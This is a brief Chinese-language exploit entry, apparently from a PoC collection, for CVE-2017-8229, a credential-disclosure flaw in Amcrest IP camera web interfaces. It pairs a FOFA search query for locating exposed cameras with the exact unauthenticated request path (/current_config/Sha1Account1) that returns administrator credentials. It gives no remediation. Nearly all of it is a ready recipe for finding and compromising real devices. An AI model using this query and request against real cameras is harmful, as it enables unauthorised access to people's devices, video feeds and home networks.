 # Amcrest IP Camera Web Sha1Account1 账号密码泄漏漏洞 CVE-2017-8229

## 漏洞描述

Amcrest IP Camera Web是Amcrest公司的一款无线IP摄像头，设备允许未经身份验证的攻击者下载管理凭据。

## 漏洞影响

```
Amcrest Technologies. Amcrest IP Camera Web all
```

## FOFA

```
"Amcrest"
```

## 漏洞复现

登录页面

![image-20220519161504045](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205191616449.png)

POC

```
/current_config/Sha1Account1
```

![image-20220519161546887](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205191616340.png)